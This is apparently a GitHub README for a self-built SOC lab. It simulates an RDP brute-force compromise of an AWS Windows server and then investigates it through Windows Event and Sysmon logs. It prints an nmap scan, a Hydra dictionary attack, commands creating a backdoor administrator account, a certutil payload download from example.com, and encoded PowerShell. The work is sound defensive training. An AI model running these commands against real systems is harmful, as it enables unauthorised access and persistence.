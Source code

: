 # 🛡️ Practical SOC Workflows Using Windows Event and Sysmon Logs

## 📘 Overview
This project simulates a realistic security incident on a Windows system and demonstrates how a SOC (Security Operations Center) analyst might investigate and respond using Windows Event Logs and Sysmon telemetry. The lab follows the NIST SP 800-61 framework for incident response, emphasising hands-on detection, containment, and remediation.

This project serves both as a learning resource and as a proof of concept to reinforce Windows forensic workflows, enhance detection engineering intuition, and build investigative muscle memory for real-world SOC environments.

- **Disclaimer**: The EC2 instances were terminated post project completion, and therefore majority of IP's have not been redacted. These instances no longer exist.

## 🎯 Project Objectives
- To simulate attacker behavior including enumeration, reconnaissance, brute-force (dictionary-based) authentication attempts, and post-compromise actions such as privilege escalation and persistence.
- To conduct a structured SOC-style investigation using built-in tools (Event Viewer, PowerShell) and third-party utilities (Sysmon), while practicing detection logic, log correlation, and incident response techniques.

## Tools
- AWS EC2 instances (windows & ubuntu)
- [nmap](https://nmap.org/)
- [Hydra](https://www.kali.org/tools/hydra/)
- Windows Event Viewer
- [Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)

## 📌 Project Phases
| Phase | Title | Description |
|-------|-------|-------------|
| 1     | Pre attack activities | Carry out enumeration and reconnaissance on the vulnerable server |
| 2     | Brute-force (dict attack) | The attacker brute forces authentication into the server via a dictionary attack | 
| 3     | Post-compromise | The attackers post compromise actions such as privilege escalation and persistence |
| 4     | SOC Investigation | SOC team is alerted of the security events and begins investigations following NIST SP 800-61 framework for Incident Response |
| 5     | MITRE ATTACK | Correlate the security events to MITRE ATTACK tools & techniques |
| 6     | Lessons learned | Project overview and summary of findings |

### 1. Pre attack activities
The pre attack activities are simulated by me to better understand the tools, techniques, and through processes behind attacker behaviours for enumeration and reconnaissance. I begin by performing an `nmap` scan on the public IP address of the target server.

```
sudo nmap -sS -Pn 16.170.231.38
```

- `-sS`: SYN scan (stealth scan)
- `-Pn`: Skips host discovery (assumes host is up)

![image](https://github.com/user-attachments/assets/f489032b-e585-41cf-a6fa-7a311ce935fc)

The attacker notes that port 3389 (RDP) is open on service: `ms-wbs-server`. 

### 2. Brute-force attack (dictionary attack)
The attacker begins a dictionary attack using `Hydra`, on common username credentials such as `itadmin`. They create a `password.txt` file containing common and weak passwords to begin their attack.

![image](https://github.com/user-attachments/assets/8d291ff1-beac-474e-bdf9-bf463967b840)

With the first password list ready, they run Hydra against the public IP address of the server.

```
hydra -t 1 -W 3 -V -l itadmin -P passwords.txt rdp://16.170.231.38
```

![image](https://github.com/user-attachments/assets/72b187f8-094e-4f00-80d1-72974e738c27)

This reveals a successful authentication via password `Summer2025` which the attacker can then use for successful authentication via RDP to the remote server.

### 3. Post-compromise activities
The attacker then accesses the remote machine via RDP using the details discovered through this enumeration and reconaissance. Once inside, the attacker elevates a new account and adds it so a security-enabled group `Administrators`. The new user `svc_task` is a common naming convention to evade detection, mimicking real windows service accounts.

```
PS C:\Windows\system32> net user svc_task notevil123! /add
The command completed successfully.

PS C:\Windows\system32> net localgroup administrators svc_task /add
The command completed successfully.

PS C:\Windows\system32>
```

The attacker then laterally moves to this new account `svc_task` and performs two actions in PowerShell.

```
certutil.exe -urlcache -split -f http://example.com/payload.txt C:\Temp\payload.txt
```

- `certutil.exe` is a built-in windows binary and is often abused by attackers to download files. Its commonly whitelisted and can help attackers to evade suspicions.
- The command parameters attempt to fetch a remote file from the example url and save it locally as `payload.txt`

```
powershell -enc UwB0AGEAcgB0AC0AUABvAHMAZQBzAHMAIABjAGEAbABjAC4AZQB4AGUA
```

- This is Base64-Encoded Powershell with Obfuscation. The `-enc` flag tells PowerShell to interpret the argument as a base64-encoded command.
- The base64 string decodes to: `Start-Process calc.exe` (CyberChef was used here). This example is harmless - but the tactic realistic. Attackers use this method to hide dangerous payloads.

### 4. SOC Investigation (NIST SP 800-61)
In this scenario, the SOC team have had numerous alerts raised on their EDR and SIEM platform, which contained the following alert messages:
- Number of invalid logins for account `itadmin` has exceeded threshold of 3 within 10 minutes.
- New user account has been created and added to a security-enabled group
- Malicious PowerShell code detected on host: `EC2AMAZ-NILIHU8`

### 4.1 Preparation
This phase of the framework comes before an incident, and involves log management, playbooks, detection rules such as in EDR/SIEM platforms, asset inventories, and user training. The goal of this stage overall is to ensure you are ready before a security incident.

### 4.2 Detection & Analysis
The alerts from this incident have came from the organisations SIEM (Splunk) and EDR (Microsoft XDR) platforms. However, this can also involve manual user escalations or threat intel. In this stage, triaging the alert helps to confirm if it is real by investigating the alert sources in greater detail. In this project, the SOC L1 assigns himself ownership of the cases, and begins the investigation. The SIEM alerts have revealed IOCs (indicators of compromise) such as host: `EC2AMAZ-NILIHU8` and user: `itadmin`. The L1 then pivots into this machine and opens up Windows Event Viewer to look deeper.

In `Event Viewer` -> `Windows Logs` -> `Security` the L1 filters on Event ID `4625`: failed logins. 10 login attempts were made at around `12:37 PM`. By going through these events individually, we see that the account name `itadmin` has been under a brute-force attack. The IP address 16.16.66.207 is an external/unknown IP address. The failure reason explains that the username of password was incorrect. 

![image](https://github.com/user-attachments/assets/fcd9b2bd-e695-4594-8e67-59113a04af3b)

![image](https://github.com/user-attachments/assets/bb4a9e38-8ac2-4eab-b99d-07c59513f34f)

The L1 then changes his search towards successful logins: Event ID `4624` and creates a custom XML filter on the target username identified `itadmin`.

![image](https://github.com/user-attachments/assets/a58d4f74-e558-4da9-a5fd-f9f73b7b2c69)

The results reveal that at `12:49:49` this user was successfully accessed by the malicious IP address. We know from the SIEM alerts that a new user has been created and added to a security-enabled group. Therefore the following searches investigate this with the relevant Event IDs. Filtering now on Event ID `4720`: New user account was created - We discover that itadmin has created a new user account called `svc_task`: at `1:11:08 PM`. The next Event ID `4732` reveals that the attacker then added this account to `Administrators`.

![image](https://github.com/user-attachments/assets/0d53525a-22b6-4e72-ab6f-0108f1e30a79)

In the `sysmon` logs in Event Viewer, another custom XML filter was applied, looking directly at the suspicious new user, and `EventID=1` which covers `Process creation`.

![image](https://github.com/user-attachments/assets/2db2a8e1-67b5-4d8d-a560-72bc40bd3d48)

Within the event results, we discover that the user ran malicious encoded PowerShell code.

![image](https://github.com/user-attachments/assets/3e75533a-edbb-4f6c-aa09-e79649589ac4)

```
CommandLine: "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -enc UwB0AGEAcgB0AC0AUABvAHMAZQBzAHMAIABjAGEAbABjAC4AZQB4AGUA
```

I then checked the `PSReadLine` file for the suspicious user `svc_task`, found here:

```
C:\Users\svc_task\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```

![image](https://github.com/user-attachments/assets/1c127e03-48e0-401c-9845-e148a6d0db7e)

This is when I discovered more malicious PowerShell code that was not picked up in Sysmon. This was a `certutil.exe` abuse attempt to fetch a malicious payload from an external website.
